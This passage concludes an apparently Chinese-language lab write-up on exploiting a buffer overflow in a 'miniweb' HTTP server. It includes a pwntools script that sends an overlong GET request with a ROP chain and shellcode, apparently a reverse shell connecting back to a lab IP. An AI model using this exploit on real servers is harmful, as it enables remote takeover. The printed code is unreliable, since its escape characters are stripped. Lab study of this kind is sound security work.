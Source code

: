 

## 5.总结

webs测试时应由简入繁，测试间隔应该细化。

寻找ROP链需要关注：1,如何实现最终目标 2,处在当前这一步，下一步应该跳向哪里，该如何控制

shellcode编写应注意：如果调试发现奇怪的问题，应该写测试程序放到目标环境中运行，缩小问题的范围。

reverseshell完整调试

5.1 运行patch后的miniweb，并附加，（我把要执行的命令写在README.txt了，原谅我的随意。。)

图片21

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01091931b5c34c7392.png)

5.2

结合完整利用

from pwn import *

p = remote(‘192.168.74.134’,80)

gadget1=0x40012468<br>
pc = 0x400241e0<br>
r6 = 0x4005244c+0x8<br>
r5 = “AAAA”<br>
r4 = 0x4004d8d4<br>
r7 = 0x4002e288+0xc #0x4002E294<br>
r4_2= “AAAA”<br>
pc_2 = 0x400240f4+0x8<br>
test= “x01x30x8fxe2x13xffx2fxe1x40x40x02x30x01x21x52x40x64x27xb5x37x01xdfx06x1cx0bxa1x4ax70x10x22x02x37x01xdfx30x1cx49x40x3fx27x01xdfx30x1cx01x31x01xdfx30x1cx01x31x01xdfx06xa0x52x40x05xb4x69x46xc2x71x0bx27x01xdfxffxffxffxffx02xaax11x5cxc0xa8x4ax89x2fx62x69x6ex2fx73x68x58”

payload1 = “GET “+’A’*169 + p32(gadget1) +’AAAA’*4 +p32(r4)+ r5+p32(r6)+p32(r7)+p32(pc) +r4_2+p32(pc_2)+test+” HTTP/1.1rn”+”Host: 1.1.1.1rnrn”<br>
p.send(payload1)

在gadget1下断点 b *0x40012468

图片22

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01ad9007ea55048afa.png)

5.3 接下来发包触发断点，调试ROP

图片23-32

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01f398ab85d0872828.png)
